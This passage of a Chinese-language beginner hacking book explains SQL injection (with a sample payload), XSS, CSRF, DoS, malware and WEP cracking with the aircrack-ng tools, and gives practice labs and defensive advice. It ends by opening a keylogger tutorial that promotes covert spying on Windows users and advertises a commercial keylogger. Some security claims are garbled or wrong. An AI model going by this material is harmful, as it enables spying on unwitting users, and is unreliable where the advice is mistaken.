SQL 查询数据库语言在广域网上无处不在。它最经常被用于其他 Web 代码中，以管理用户登录和数据库访问请求。由于数据库查询不可避免地包含源自用户输入的字符串，因此自然容易受到操纵。SQL 注入是一种利用 SQL 语言语法本身的 Web 攻击手段。SQL 使用 `AND` 和 `OR` 等布尔逻辑操作来连接语句段，包括由用户输入的字符串。一个典型的用户登录 SQL 语句可能如下所示：

```
SELECT * FROM database WHERE user = ' ' + username + ' '
```

上述语句将用户输入的对应 `user` 字段的字符串插入语句中的 `username` 变量中。该语句预期用户输入一个简单的、典型的用户名字符串。与黑客寻求利用的大多数漏洞一样，对用户输入字段的非预期使用可能导致意外之外的行为。聪明的黑客学会了利用 SQL 语法，通过在用户字段中输入特殊字符串导致执行某些所需的 SQL 命令，从而获取用户账户权限。例如，以下字符串在作为用户名输入时，可能看起来是乱码或无趣的内容：

```
' OR '1'='1
```

然而，如果 SQL 解释器字面地处理生成的命令，它将读取为：

```
SELECT * FROM database WHERE user = '' OR 1=1;
```

当此命令执行时，它将被解释为（用大白话来说）：“从数据库中选择所有用户名为 `''` 或 `1=1` 的记录”

可能没有任何用户名是空字符串，但 `OR` 关键字的存在意味着，只要 `OR` 两侧的子句（`user = '' OR 1=1`）中任何一个为真，命令就会执行。由于 `1=1` 始终为真，命令必须执行。任何为真的语句都可以放在 `OR` 之后，但 `1=1` 是一个高效的选择。通过用户字符串插入命令段，正是这种程序之所以被称为“注入”的原因。这是一个简单的例子，现在大多数网站都有基础攻击防护等措施，但注入攻击（SQL 之外的其他脚本也可能受到注入攻击）仍然是一个常见的威胁，并作为利用软件漏洞的说明性示例。许多网站允许黑客针对具有已知 SQL 漏洞的模拟站点练习注入攻击。

## URL 操纵

网站的网络地址，或通用资源定位符（`URL`），不仅包含网站资源文件的网络位置信息，通常还包含在某种用户交互后传递给 Web 应用程序的其他信息。这些信息可能是编码的，或者遵循某种语义方案。作为一个简单的例子，考虑一个具有以下 URL 的虚构搜索引擎：

```
http://www.acmesearch.com/
```

当用户在表单中输入搜索词并点击提交按钮时，网站可能会根据某种格式自动在 URL 末尾附加搜索词。这是通过 Web 脚本和数据库查询传递信息以满足用户请求的一种方法。因此，如果这个假设搜索引擎的用户正在搜索“`beginner hacking`（入门破解）”，网站可能会提交以下 URL（或类似的内容）：

```
http://www.acmesearch.com/search?=beginner+hacking
```

如果用户注意到了这种模式，他们很容易发现可以绕过用户界面的 Web 表单，直接将搜索词输入到观察到的 URL 方案中。这种 URL 操纵在用于搜索引擎等服务时显然是相当无害的。然而，在 Web 商的早期，这些简单的语义实际上被用于提交产品订单。不久后，黑客就学会了如何操纵支付金额以及他们订购的产品类型和数量。尽管大多数在线商家现在已经有了更安全的流程，但仍有许多类型的网站和服务存在可以通过 URL 操纵利用的漏洞。

## 跨站脚本与请求伪造

某些网站允许用户互动，使得用户的输入成为网站内容的一部分。这些网站最好的例子之一是允许用户评论（针对照片、文章等）的网站。这些评论通常由用户通过 Web 表单或类似的接口提交。如果攻击者能够输入评论以外的内容——无论是通过 URL 操纵还是直接向表单字段输入——它就可能成为其他用户访问的网站代码的一部分。黑客已经学会了如何利用不防御此类攻击的服务器，通过这些表单字段向网站注入恶意代码。注入的代码可以被写成，使得其他用户不知道自己的浏览器正在运行注入的代码。这种活动被称为跨站脚本（`XSS`），黑客可以利用它在用户机器上植入恶意代码，或劫持用户身份以登录目标机器。

当用户登录一个安全网站时，该网站授予其访问服务器上资源的权限。通常，这种访问仅授予该特定用户单个登录会话。一旦用户注销或关闭网站，他们必须重新登录并开启新会话才能访问。会话信息通过 `Cookie` 存储用户系统中，`Cookie` 是包含特定会话状态有用信息的小文件。会话 `Cookie`（或身份 `Cookie`）让服务器知道用户当前处于登录状态。如果黑客能够拦截一个不安全的会话 `Cookie`，他们可以在自己的机器上复制它，并在用户处于会话期间用来访问目标系统。例如，如果用户登录了银行账户，服务器放置在计算机上的会话 `Cookie` 知道继续允许用户访问账户。如果黑客能够在自己的机器上获取那个特定的会话 `Cookie`，他们就可以欺骗服务器允许他们访问账户。黑客通过建立他们认为许多用户想要访问的虚假网站来实现这一点。由于用户经常同时打开多个标签页或浏览器窗口使用 Web，黑客希望用户在登录安全账户的同时也登录他们的恶意网站。当用户与恶意网站交互时，他们正在不经意地通过自己的浏览器执行向安全网站发送命令的脚本。由于安全网站（例如银行）在相应会话期间允许访问，它无法判断请求是否合规。这种攻击被称为跨站请求伪造（`CSRF`）。

在上述示例中，对于 SQL 注入、URL 操纵、跨站脚本和跨站请求伪造，这些漏洞可以通过在执行前检查用户输入中的可疑内容来相当容易地被利用。网站程序员可能已经发现了许多此类攻击方法，并努力在为用户提供访问和服务的同时降低网站的脆弱性。

## 第 6 章 恶意活动与代码

拉丁语根词“`mal`”简单来说的意思是“坏”。因此，恶意活动的特征是具有伤害的意图。在黑客攻击中，这种伤害可能表现为盗取金钱、财产或声誉。它也可能仅仅是为了破坏而破坏，或者为了某些其他目的。由于现在许多关键系统已经数字化、互联化并在线化，黑客有能力造成小规模或大规模的破坏。

### 拒绝服务攻击

当我们在街上看到某人（无论是朋友还是陌生人）并希望与他们交谈时，我们通常不会直接走过去并开始谈论脑海中出现的任何话题。人类交流的通用协议是先执行某种问候。人们可能会说“你好”（或其变体）并说出对方的名字，也许还会快速握手——然后当对方回应时，对话就开始了。在发起电话通话时，也期望同样的程序顺序，在这种情况下，它具有更实际的意义，因为对话的双方通常都想确定自己正在和谁说话。对话中的开头几个字用于确认双方的身份。这种协议也用于计算机网络通信。网络中的一个节点不会简单地胡乱发送请求、命令或数据，而是尝试首先确认其正试图通信的节点是否存在以及是否就绪。


在正常的网络对话中（通常通过 `TCP` 协议），预计会发生三次握手。在这次握手期间，首先由对话的发起者向接收者发送一个同步（`SYN`）包。该数据包包含了发送者的 `IP` 地址，且包中的一个标志位指示接收者这确实是一个 `SYN` 包。如果 `SYN` 包成功送达，接收方已准备好通信，它将向发送者回传一个确认（`ACK`）包，该包包含自己的 `IP` 地址以及一个指示其为 `ACK` 包的标志位。最后，原始发送者将向接收者发送一个 `ACK` 包，随后正常通信即可开始。有时，由于各种原因，数据包在网络节点之间的传输过程中会丢失。这可能是因为高流量、网络硬件故障、电或电磁干扰以及其他原因造成的。因此，如果发送者在规定时间内没有从预期的接收者处收到 `ACK` 包，它将发送另一个同步请求。同样，接收者将无限期传输 `ACK` 包，直到收到来自原始发送者的确认。一个没有因丢包导致中断的正常握手总结如下：

- `1)` 发送者：`SYN` → 接收者
- `2)` 接收者：`ACK` → 发送者
- `3)` 发送者：`ACK` → 接收者
- `4)` 发送者 → 接收者

任何网络节点只能与有限数量的其他节点通信。当黑客能够通过反复传输 `SYN` 和 `ACK` 包来破坏握手过程时，合法通信可能会被大幅降低甚至完全停止。这种攻击被称为拒绝服务（`DoS`）攻击。

### 基础 DoS

拒绝服务攻击背后的本质是伪造 `IP` 数据包头中的标志位，以引导服务器发送重复的 `ACK` 请求。简单的方法是破坏上述步骤二和三之间的传统握手过程。当接收者向原始发送者回传 `ACK` 请求时，它期望收到另一个 `ACK` 包作为回复，以便开始通信。然而，如果发送者用另一个 `SYN` 请求作为响应，接收方将被迫响应另一个 `ACK` 包。如果这种往复持续下去，就会占用服务器机器上的网络资源和端口。这种情况类似于一个永不结束的“敲门”笑话……（“敲门”、“是谁在吗？”“敲门”、“是谁在吗？”等）。这种 `DoS` 攻击被称为 `SYN` 泛洪。执行 `DoS` 攻击有多种方法，其中大多数利用了 `TCP/IP` 协议本身的漏洞。

### 分布式 DoS

分布式拒绝服务（`DDoS`）攻击是指一个黑客或一组黑客能够从大量机器执行协调的 `DoS` 攻击。传输攻击包的机器共同工作，简单地压垮目标系统，导致合法用户无法访问服务器，或者对用户请求的响应缓慢到几乎无法使用。在大多数情况下，传输攻击相关数据包的机器并不由执行攻击的黑客所有。当黑客准备大规模 `DDoS` 攻击时，他们会在尽可能多属于不知情攻击参与者的用户的机器上植入恶意代码。通常，这些机器分布在广大的地理区域和多个网络中，有时遍布全球，使得当局或受害系统的安全人员难以切断攻击。

### 恶意软件

“`Malware`”（恶意软件）一词是描述“malicious software”的合成词。该术语涵盖了黑客可能植入目标机器的各种软件，用以造成损害或获取对目标全部或部分的控制。恶意软件是整个互联网范围内普遍且严重的问题。恶意软件在主机上激活后有无数种行为方式。有些设计用于扩散到其他机器，并隐蔽地留在主机上，以为黑客收集机密信息、占用计算机资源或对系统造成破坏。有时，恶意软件被放置在机器上，是为了日后控制该机器以参与攻击（例如 `DDoS`），并与其他被接管的机器协同工作。

### 病毒

病毒是最古老且最为人知的恶意软件类型。就像它们生物学上的名称一样，病毒被设计为从机器传播到机器，在过程中感染大量用户，有时甚至是整个自包含的网络。这些恶意设备是代码段，它们将自己（就像生物病毒一样）附着在其他具有用途的程序上。当用户激活这些程序时，病毒代码就会执行且不会被察觉。当病毒被激活时，它会创建自己的副本并尝试附着在它可以访问的系统或域内的其他程序上。这允许病毒在单个节点以及网络其他节点之间传播。然而，黑客编写病毒通常不是为了让自己传播。通常，黑客希望病毒在到达目标时完成某个特定的任务。

由于病毒被设计为保持隐藏，它可以在主机上执行任何操作。它可以收集个人和财务信息，并隐蔽地利用计算机自身的通信将信息回传给黑客。其他病毒被设计用于删除信息或干扰计算机的运行或通信。病毒甚至可以被编写为对计算机系统造成物理损坏。例如，`20` 世纪代广泛流行的一种特定病毒被设计为导致主机光驱硬盘上的电机驱动执行臂快速往复移动，直到电机故障。这种病毒会对具有网络连接的计算机控制机械造成巨大的破坏。

蠕虫通常通过占用内存和网络带宽来减慢或停止系统的运行，从而消耗系统和网络资源。偶尔，蠕虫也可能用于收集信息。

### 警惕携带礼物的“极客”

传说中，亚基肯人（古希腊人）与特洛伊人之间的史诗级战争结束，是因为狡猾的奥德修制造了一匹巨大的木马，并将其留在特洛伊城门外，作为送给这座城市的明面贡品。感激的特洛伊人将这份大礼物推入城并带入他们臭名昭著的坚固围墙之后，并不知道有一支希腊士兵躲在木马的空腹中。士兵们在深夜黑暗的掩护下出现，为剩下的亚基肯军队打开了大门，大军随后进入并洗劫了这座城市。几千年来，无论这个故事是否真实，它一直被当作警戒故事——提醒我们，有时看似无害或无辜的东西会导致我们的灭亡。在计算机黑客领域，特洛伊木马是一种看似合法或理想软件的恶意软件。它甚至可能在用户下载它的任何用途上正常运行。特洛伊木马（通常被称为“特洛伊”）的典型目的是为黑客提供对目标系统的远程访问和控制。任何编写用于让黑客秘密控制用户机器进程的恶意软件被称为 `rootkit`（根根包）。

病毒、蠕虫和特洛伊木马，以及它们传递到目标系统的各种载荷，其创建都需要良好的编程技能才能成功。计算机安全专业人士以及反病毒产品投入了大量精力阻止这些恶意程序。从事恶意软件的黑客不断磨练技能，他们的创作也变得越来越复杂。

## 第 7 章 无线攻击

现可用 `Wi-Fi` 网络的普及使得 `Wi-Fi` 成为最常见的网络媒介之一。在许多方面，`Wi-Fi` 优于物理连接的传统铜线网络。除了无线网络为用户提供的连接便利性和网络配置灵活性外，由于缺少完成网络所需的物理基础设施，使其实施比以太网廉得多，也更容易。然而，这种便利性也带来了一些与传统硬线网络不相关的安全隐忧。对于基于铜线或光纤的网络，新机器加入网络需要物理连接。黑客通常很难访问目标网络的物理空间，并且在尝试将自己的硬件连接到网络电缆时可能会引起怀疑。尽管 `Wi-Fi` 的范围有限，但它是全向的，服务器和无线网络上的各种节点所接收的射频信号可以穿墙和其他障碍，并可以被任何范围内的设备拦截。这为黑客提供了更大的自由，可以在不被发现的情况下进行网络入侵。

### 攻击 Wi-Fi

大多数 `Wi-Fi` 网络由一个无线路由器或一组无线路由器组成，这些路由器连接到调制器，调制器为某些物理位置提供互联网访问。路由器在特定通道上广播和接收无线信号，这些信号在具有类似无线连接的其他机器和设备之间传输相应的 `TCP/IP` 数据包。在与该位置调制器连接的路由器或路由器相关的通道上，任何时间通信的所有节点都构成了一个 `Wi-Fi` 网络。从本质上说，`Wi-Fi` 网络是非常动态且流动的。特别是在咖啡馆或提供无线访问的办公楼等商业环境中，特定网络上的节点数量和性质在不断变化。在这些公共场所，黑客很容易隐身于市，并尝试入侵到网络上的任何节点中。一旦黑客成功进入网络，他们就可以扫描网络以找到所有连接的机器，并探测漏洞。许多网络同时具有相互连接的无线和子网。当黑客获得无线网络的访问权限后，理论上可以利用此访问网络有线部分的所有节点。这使得 `Wi-Fi` 攻击成为现代黑客非常受欢迎的目标。

### Wi-Fi 加密协议

由于 `Wi-Fi` 信号是广播到空气中而不是限制在电线内，因此对信号进行加密非常重要。否则，任何人都可以接收并查看无线网络中传输的信息。随着 `Wi-Fi` 变得普及，对网络信息进行加密变得越来越重要。此外，随着技术的进步和数据速率的增加，`Wi-Fi` 加密协议已经不断演变，以确保信息在无线网络中不落入黑客手中。

最老且最常见的 `Wi-Fi` 加密协议是无线等效隐私（`WEP`）。`WEP` 标准的目标正如其名所意，是为用户提供与物理连接网络相同水平的安全性。遗憾的是，随着时间的推移，`WEP` 已变得非常不安全，以至于即使是初级黑客也能轻松破解密码。尽管加密水平从 `64` 位增加到 `128` 位再到 `256` 位，但 `WEP` 的底层缺陷仍然易于利用。`WEP` 的最大问题是，可以通过简单的被动嗅探（接收和查看网络流量）快速地破解密码。

相比 `WEP` 的一个重大进步是无线保护访问（`WPA`）。这种新协议解决了 `WEP` 的许多问题，但由于它仍然基于某些底层加密算法，仍然容易受到攻击。此外，`WPA` 保护的路由器配备了一个旨在方便家庭用户连接新设备的功能，该功能被证明是 `WPA` 系统的一个额外漏洞。

不久后，就需要对 `WPA` 进行更新以保持 `Wi-Fi` 网络更安全。一种在其他安全应用中加密标准——高级加密（`AES`），在新的 `Wi-Fi` 加密协议中强制执行，该协议被称为 `WPA-2`。由于其安全性比之前的标准有了显著提高，`AES` 加密已成为可用无线路由器的推荐设置。破解 `WPA` 和 `WPA-2` 需要比攻击受 `WEP` 保护的网络更具侵入性的黑客技术。

### Wi-Fi 攻击


黑客进行 Wi-Fi 攻击至少需要一台计算机（通常是笔记本电脑），其能够运行用于破解 Wi-Fi 密码的脚本。他们还必须获得一个相对便宜的特殊 Wi-Fi 适配器。可以在黑客资源网站上找到合适的 Wi-Fi 适配器列表，但通常情况下适配器必须具有被称为“监听模式”的功能才能执行 Wi-Fi 攻击。需要注意的是，并不是在零售商店找到的所有 Wi-Fi 适配器都具有此功能，而且大多数内部适配器并不适用。通常，黑客倾向于使用某些 Linux 发行版（通常是 `Kali`）来进行 Wi-Fi 攻击，大多数现可用工具都是为 Linux 编写的并预装在 `Kali` 中。也可以通过某些配置在另一个操作系统的虚拟机中运行 Linux 来发起攻击。虽然从其他操作系统进行攻击是可能的，但对于初学者来说，从原生 Linux 发行版实施要容易得多。

虚拟机。推荐使用像 `Kali` 这样对黑客友好的发行版。

针对加密协议 Wi-Fi 攻击的详细步骤和推荐程序会随时间变化，尽管基本原理是相同的。对于最简单的针对 `WEP` 加密的攻击，通用步骤如下：

1. 在“监听模式”（通过名为 `airmon-ng` 的程序设置）下，使用名为 `airodump-ng` 的程序监控并查看适配范围内所有的 Wi-Fi 流量

   
   `### 路由器上的实时 Wi-Fi 流量 (aircrack-ng.org)`

2. 选择使用 `WEP` 加密的目标 Wi-Fi 网络，并记录名称 (`ESSID`) 和网络地址 (格式为 `XX:XX:XX:XX:XX:XX` 的 `BSSID`)

3. 重新启动 `airodump-ng` 开始捕获来自目标网络的网络流量

4. 等待捕获足够数量的数据包（流量较少的网络上可能需要更长时间）

5. 使用名为 `aircrack-ng` 的程序将捕获的网络数据包组合成一个完整的密码

   
   一个成功解密的 Wi-Fi 密钥 (aircrack-ng.org)

如果网络流量太慢，无法在合理时间内捕获足够的数据包来破解密码，有些人选择使用名为 `aireplay-ng` 的程序向网络注入伪数据包，创建必要的流量以便更快破解。然而，这种活动需要黑客的机器实际上从其 Wi-Fi 适配器广播信号，使其更容易暴露。

`WPA` 加密无法通过被动破解，需要额外的数据包注入步骤。破解 `WPA` 可能需要更长时间，且是一种更具侵入性的程序，但并没有破解 `WEP` 困难。名为 `reaver` 的程序通常在 `Kali` 发行版中可用，被黑客用来破解 `WPA`。`WPA-2` 破解对于经验更丰富的从业者来说是一个更高级的概念。（注：上述软件工具已预装在 `Kali Linux` 中，或可以从 `www.aircrack-ng.org` 下载）

## 第 8 章 你的首次攻击

初学者黑客不应该考虑将作为进入黑客世界的首次尝试去攻击真实目标。存在许多易于获取的工具和技术，可以在虚拟环境中练习各种方法。这种练习对于黑客来说是重要的，其价值比他们能完成的所有阅读和学习都要大。为了建立信心并对细节和实际陷阱有良好的理解，初学者黑客应该追求完成本章建议的简单攻击。攻击的细节会有所不同，读者应该研究当前适用的指令，但设置和执行的通用原理应该是通用的。

### 破解你自己的 Wi-Fi

这次实战攻击的目的是成功获取 `WEP` 加密 Wi-Fi 网络的密码。为了风险最低，网络和任何连接的设备应该由你拥有或控制，或者由授权你进行渗透测试的人控制。

你需要：

1. 一台电脑
2. 一个支持“监听模式”的无线网络适配器
3. 一个带有 `WEP` 加密的 Wi-Fi 路由器访问（不需要连接互联网）
4. 最新版本的 `Kali Linux`（安装为主操作系统或在虚拟机中）

设置步骤：

1. 确保路由器设置为 `WEP` 以及你选择的密码
2. 如果你的笔记本电脑有内置 Wi-Fi 适配器，请将其关闭
3. 将“监听模式”适配器连接到你的攻击机器，并安装所有必要的驱动程序
4. 确保攻击电脑在目标网络的无线范围内

步骤：

1. 遵循第 7 章中的“Wi-Fi 破解”步骤
2. 确认破解的密码与你为网络设置的匹配
3. 使用 `aireplay-ng` 进行数据包注入重复破解，并比较执行时间
4. 更改密码的长度或复杂度并重复破解，比较执行时间

### 虚拟 Windows 漏洞评估

操作系统包含多个软件漏洞，黑客已经准备好并愿意利用这些漏洞。当黑客发现一个未修补的操作系统版本时，有许多常用的漏洞可以获取访问权限。部署这些漏洞的第一步是分析操作系统以寻找最明显的漏洞。`Kali Linux` 具有原生安装的工具，可以扫描系统并提供漏洞列表。此练习将要求在系统（无论主机操作系统是什么）中运行两个虚拟机。它还需要一个旧的、不受支持且未修补的 `Microsoft Windows` 版本安装镜像（`Windows '95` 或 `'98` 是很好的选择）。这些镜像可以从网上 (`uscgb.nist.gov`) 或旧光盘获得。

你需要：

1. 一台运行任何操作系统的电脑
2. 虚拟化软件
3. 最新版本的 `Kali Linux`
4. 一个不受支持、未修补的 `Microsoft Windows` 版本

设置步骤：

1. 在虚拟机上安装 `Kali Linux`
2. 在虚拟机上安装目标 `Windows` 版本（与 `Kali` 同一主机系统）

步骤：

1. 使用名为 `nmap` 的程序从 `Kali` 虚拟机执行网络扫描
2. 练习更改 `nmap` 中的各种设置，以便检测并显示操作系统漏洞
3. 记录列出的 `Windows` 漏洞并开始研究漏洞！

## 第 9 章 防御安全与黑客伦理

从黑客的视角看世界是一件可怕的事情。当你意识到你的家庭网络有多脆弱时，你想要做的第一件事就是更改 Wi-Fi 加密。你会更仔细地查看电子邮件，并带着一丝怀疑。由于你对脚本攻击的了解，你开始注意不要同时打开许多浏览器窗口或标签页。理解恶意黑客的工具和动机会让人们对信息和计算机安全产生新的认识。这些知识应该让初学者黑客停下来思考他们选择学习黑客的原因。

### 保护你自己

从选择密码等简单措施到加密等更高级的概念，日常安全的大多数方面都涉及常识。对于定期任务（如更新、更改密码以及下载最新的病毒定义），养成常规是有帮助的。为了避免成为攻击的受害者，安全应该成为日常生活的一部分。

### 密码和电子邮件规范

使用你狗的名字和安全号码后四位作为电子邮件密码的时代已经过去了。使用配置妥当的密码是人们防止暴力破解最简单的方法之一。密码破解黑客和自动密码破解软件首先查找的是常见的名称、字典词汇和简单的数字序列。令人惊讶的人们继续使用这些类型的密码，因为它们更容易记忆。需要注意的是，将常用单词中的某些字母替换为数字或符号的做法（例如用 `p@5w0rd` 代替 `password`）虽然比原始形式的常用单词更安全，但已再也骗不了黑客了。大多数黑客已经识破招数，并在暴力攻击期间使用脚本尝试这些替换字符。

现代人为各种机器、电子邮件账户和网站拥有几十个密码并不罕见。要跟踪这么多密码以及在忘记时重置它们是令人沮丧的。然而，良好的密码规范带来的不便最终优于被恶意黑客受害。具有足够复杂度且混合了字母、数字和特殊字符的长密码至少延长了黑客尝试破解密码的时间。一种额外的安全层（尽管这可能令人沮丧）是不对所有账户都使用相同的密码。如果黑客通过某种方式成功破解了你的一个密码，那么如果你不断循环相同的密码，他们将获得你所有其他账户的访问权限。

许多病毒、木马和其他恶意软件经常通过电子邮件发送到目标机器——要么作为直接附件，要么通过指向受感染网站的链接。彻底检查邮件发送者的身份至关重要，以确保他们确实是他们所称的人。黑客经常使用外观上与合法发送者非常相似的假电子邮件地址。用户应该留意电子邮件格式中的细微差别（例如 `john@mybank.com` 与 `john@my-bank.com` 的区别）。有时，高级黑客能够伪造回信邮件地址，使其看起来与合法地址完全相同，但邮件头文件中包含了可以指示恶意意图的信息。邮件中提供的任何链接都应该带有一定的怀疑态度。你应该确保这些链接来自你信任的人，并问问自己那个人是否会发送这种链接。一点点常识将大有益处。在打开任何邮件附件（尤其是可执行文件）之前，应该对该邮件运行病毒或恶意软件扫描。

### 计算机软件安全

计算机安全专家有时对杀毒软件的效能存在分歧。有人认为，昂贵的病毒和恶意软件防护软件是浪费钱，因为高级黑客擅长规避这些防护。然而，有多种免费的计算机软件套件可用，只要安全软件保持更新，就能保护大多数用户的计算机系统免受大多数基础且常见的恶意侵害。

无论如何，大多数软件都通过补丁和更新提供自身的安全性。这就是为什么用户更新其软件和操作系统，或允许这些程序自动更新非常重要。这对于修复操作系统和网络浏览器的漏洞尤为关键。`Microsoft Windows`、`Java` 和 `Adobe Flash` 经常成为黑客攻击的目标，应该不断保持最新更新。

### 网络安全与加密


Wi-Fi 路由器的加密协议应设置为其特定硬件支持的最高加密级别。将你的路由器设置为公开广播网络名称也是一种良好的做法（尽管大多数黑客可以轻易绕过这一招数）。密码安全在 Wi-Fi 网络上尤为重要，因为足够长且复杂的密码可以显著增加黑客破解你网络密码的时间。在许多情况下，使用具有最大长度和足够复杂度密码的`WPA-2`加密，会让黑客破解网络变得极其困难且耗时，以至于他们会直接转向另一个安全性较低的目标。

### Web 应用程序安全

网站应用程序中的漏洞非常多，特别是 Web 代码中存在的`SQL`及其他脚本语言中的漏洞。提供用户访问信息和服务的网站程序员需要针对一些常见的攻击建立某些保护措施。许多`SQL`注入攻击可以通过在用户输入附加到任何`SQL`命令之前对其进行清理来轻松击败。换句话说，在用户在 Web 界面上输入的字符串作为变量插入`SQL`语句之前，应该由一个子程序检查该字符串是否有可疑内容。此程序也可以用于其他类型的注入攻击，包括跨站脚本攻击（`XSS`）和跨站请求伪造（`CSRF`）。

### 伦理黑客

必须明确，黑客并不是小偷、恐怖分子、破坏者和顽皮青年的专属领域。学习和实践黑客对于理解如何防御有意伤害的黑客至关重要。虽然黑客通常并不昂贵，但黑客所需的知识和技能并非容易获得，需要自律和投入才能掌握。这使得黑客社区——至少对于成功的黑客来说——是一个相当排外的群体。它也让有才华的黑客比普通人具有优势，而那些怀有恶意的人很容易利用这种优势。

个人的伦理和道德准往往会渗透到他们从事的任何活动中。然而，某些明智人士可以轻易针对他们缺乏知识的同伴执行黑客攻击，这可能给本守法的公民带来难以抗拒的诱惑。某些攻击发布时具有的潜在匿名性进一步增加了这种诱惑。

此外，很容易说服自己认为攻击的最终目标证明了任何破坏手段的合理性。这在黑客或黑客团体为政治或社会目的服务的情况下尤为如此。每个个人都应该决定自己的活动是否值得承担逮捕和罚罚的风险（包括监禁），并思考他们对自身安全和隐私的重视是否也延伸到了他们攻击的目标。

## 第 10 章：用 C++ 制作你自己的键盘记录器

如今，由于一种名为`Keylogger`（键盘记录器）的程序的存在，未经授权访问计算机用户的密码、账户和机密信息已变得像掉木桩一样简单。你并不需要在监控其之前物理上接触用户的计算机，有时用户只需点击一下指向你程序的链接即可。

任何具有计算机基础知识的人都可以使用键盘记录器。在完成本章后，希望你能够通过我为你提供的简单、解释清晰且带有插图的步骤制作出你自己的键盘记录器。

奖励：免费获取`Wolfeye Keylogger`：

此外，在本书中，我将送给你一个计算机监控软件`Wolfeye Keylogger`免费版。

这里是软件链接：`www.wolfeye.us/alan.html`

你可以在注册的计算机上永久生成许可证。但同一个电子邮件地址只能生成一个免费许可证。

优惠码：`egsrovaajg`

你可以通过链接找到安装软件的教程：`https://www.wolfeye.us/tutorial.html`

### 什么是键盘记录器？

为了制作你自己的自己的键盘记录器（`Keylogger`），你需要准备好某些特定的程序包。其中一些程序包包括：

## 1. 虚拟机

在编写代码并需要进行测试时，并不总是建议直接在你的电脑上运行它们。这是因为代码可能具有破坏性，运行它们可能会导致你的系统受损。在测试编写好的程序时，虚拟机的利用就派上用场。

虚拟机是一个程序，它拥有与你的计算机系统相似的环境，你可以在其中测试可能具有破坏性的程序，而不会对系统产生任何微小的伤害——即使这些程序应该是破坏性的。

如果你说——虚拟机内部发生的任何事情都只留在虚拟机内部，那么你是正确的。虚拟机可以很容易地下载。

## 2. Windows 操作系统

我们将制作的键盘记录器将只能感染`Windows`电脑。我们选择制作这种键盘记录器是因为大多数桌面用户都使用`Windows`平台。然而，除此之外，与制作可以在`Mac`电脑上运行的键盘记录器相比，制作一个可以在`Windows`系统上运行的键盘记录器要容易得多。因此，我们从简单的方法开始，稍后在我们的下一书中进阶更复杂的方法。

## 3. IDE – 集成开发环境

`IDE`是一套软件组合，它整合了开发者编写和测试软件所需的基础工具。

通常，`IDE`包含一个代码编辑器、一个调试器和一个编译器，开发者通过单一图形用户界面（`GUI`）访问它们。我们将为此项目利用一个名为`eclipse`的`IDE`。

## 4. 编译器

编译器是一种特殊的程序，它处理用特定计算机语言编写的语句，并将其转换为计算机处理器可以理解的机器语言或“代码”。

在我们开始编写键盘记录器之前，我们需要设置环境，并学习一些关于`C++`的基础知识。学习`C++`是因为大多数针对`Windows`的代码都是用它编写的，而且我们的键盘记录器目标平台是`Windows`。

你绝对希望你的键盘记录器具备在所有使用`Windows`操作系统的系统上通用运行的能力。

预先告知你，由于其语法的性质，`C++`并不是最容易学习的编程语言。尽管如此，不要就放弃，我们将从简单的内容开始，逐渐过渡到更高级的内容，采取全面的循步进的方法。

我同时也建议你使用关于`C++`的外部材料来扩展你在项目过程中将涉及的领域的知识，因为这将提高你的效率。

希望在本章节结束时，你将能够制作出你自己的键盘记录器，并对其进行修改以适应你的用途。

## 第 11 章. 设置环境

就像我们在使用计算机系统之前需要对其进行设置一样，同样，我们需要设置一个环境，使我们能够用`C++`编写代码，并最终制作出一个键盘记录器。

我们首先需要的是一个集成开发环境（`IDE`），正如前面所述，我们将使用`Eclipse`。我们选择的`IDE`（`Eclipse`）是基于`Java`的，因此我们需要访问`Java`网站（`www://www.eclipse.org`）来下载。



当我们进入`Java`网站时，我们会发现有很多可下载的`Eclipse`插件选项。然而，由于我们意图使用`C++`编程语言，并考虑到我们正在`Windows`平台上工作，我们选择了“针对`C/C++`开发者的`Eclipse`”。因此，虽然有适用于`Linux`、`Solaris`、`Mac`系统等其他系统的`Eclipse`版本，但我们将下载适用于`Windows`平台的`Eclipse`。

